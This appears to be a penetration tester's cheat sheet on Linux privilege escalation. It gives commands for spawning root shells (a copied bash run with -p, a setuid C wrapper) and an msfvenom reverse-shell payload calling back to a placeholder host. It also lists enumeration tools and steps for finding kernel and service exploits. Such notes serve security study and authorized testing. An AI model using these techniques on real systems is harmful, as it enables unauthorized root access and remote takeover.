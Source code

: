 # Privilege escalation

## Spawning root shell

### Rootbash

Create copy of `/bin/bash` as `/bin/rootbash` , then run `/bin/rootbash -p`

### Executable

Create bash wrapper in c

```text
int main(){
    setuid(0);
    system("/bin/bash");
}
```

Then, compile it as a root

```text
gcc -o <out_file> <source_code>
```

### Msfvenom executable

Create msfvenom payload, then execute as root.

```text
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f elf > shell
```

### Native reverse shells

```text
https://github.com/mthbernardes/rsg
```

## Enumeration tools

```text
https://github.com/diego-treitos/linux-smart-enumeration
https://github.com/rebootuser/LinEnum
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
https://github.com/sleventyeleven/linuxprivchecker
https://github.com/AlessandroZ/BeRoot
http://pentestmonkey.net/tools/audit/unix-privesc-check
```

## Techniques

### Kernel exploits

Get kernel version

```text
uname -a 
cat /etc/issue
```

Find an exploit for that particular kernel version

```text
searchsploit linux kernel <version> priv esc
./linux-exploit-suggester-2.pl -k <version>
```

### Service exploits

Find services running as root

```text
ps aux | grep "^root"
netstat -nl
```

Check their versions

```text
<service> -v
<service> --version
dpkg -l | grep <service>
rpm -qa | grep <service>
```

